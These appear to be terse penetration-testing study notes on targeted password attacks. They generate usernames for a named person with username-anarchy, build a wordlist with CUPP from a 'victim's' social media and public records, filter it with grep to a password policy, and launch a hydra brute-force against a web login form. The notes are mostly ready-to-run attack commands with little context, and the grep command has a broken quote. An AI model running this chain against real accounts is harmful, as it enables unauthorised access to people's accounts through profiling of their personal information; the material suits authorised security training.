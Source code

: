 ```shell-session
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

```shell-session
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

## CUPP
Common User Passwords Profiler
Gather information from:
- Social Media
- Company Websites
- Public Records
- New Articles and Blogs

```shell-session
sudo apt install cupp -y
cupp -i
```
- Input in information about the victim

Scenario:
- Minimum 6 characters
- At least on uppercase letter
- At least one lowercase letter
- At least one number
- At least two special characters (from the set !@#$%^&*)
```shell-session
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E ([!@#$%^&*].*){2,}' > jane-filtered.txt
```
```shell-session
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/username=^USER^&password=^PASS^:Invalid credentials"
```
